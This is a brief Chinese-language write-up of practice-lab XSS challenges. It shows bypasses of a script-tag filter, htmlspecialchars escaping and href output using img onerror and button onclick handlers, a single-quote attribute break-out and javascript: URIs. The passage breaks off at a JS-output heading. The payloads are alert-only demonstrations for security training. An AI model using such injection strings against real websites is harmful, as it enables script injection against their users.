 





### xss之过滤

过滤了`<script>`

那直接还有两种经典的方式进行

```
<img src=1 onerror=alert(/xss/)>
<button onclick=alert(1) >xss</button>
```

都是可以绕过过滤手段的。



### xss之htmlspecialchars

这个函数会对输入的东西进行转义

输入`<script>alert('xss')</script>`

会进行转义

```
<a href="<script>alert(" xss')&lt;="" script&gt;'="">&lt;script&gt;alert('xss')&lt;/script&gt;</a>
```



所以还是直接构造：

```
1'onclick='alert(1)'
```



或者

```
javascript:alert(1)
```

提交点击后成功弹窗



### xss之href输出

还是和上面一样：

```
javascript:alert(1)
```

提交之后点击链接就能够弹窗了



### xss之js输出
